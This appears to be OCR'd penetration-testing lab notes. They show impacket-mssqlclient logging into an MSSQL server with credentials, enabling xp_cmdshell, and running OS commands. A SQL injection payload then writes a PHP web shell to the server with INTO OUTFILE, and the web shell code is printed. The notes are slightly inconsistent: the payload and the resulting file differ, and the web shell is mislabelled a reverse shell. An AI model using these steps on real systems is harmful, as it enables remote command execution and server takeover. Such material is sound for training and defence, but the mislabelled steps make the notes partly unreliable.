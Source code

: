 ```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```

This is to run the **MSSQLCLIENT impacket command line to configure a remote xp_cmdshell**

EXECUTE xp_cmdshell 'whoami';
```
nt service\mssql$sqlexpress
```

This is the result from it
After seeing that you can execute commands, you can use this to insert a Webshell

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //


> Listing 29 - Write a WebShell To Disk via INTO OUTFILE directive

The written PHP code file results in the following:

```
<? system($_REQUEST['cmd']); ?>
```

> Listing 30 - PHP reverse shell
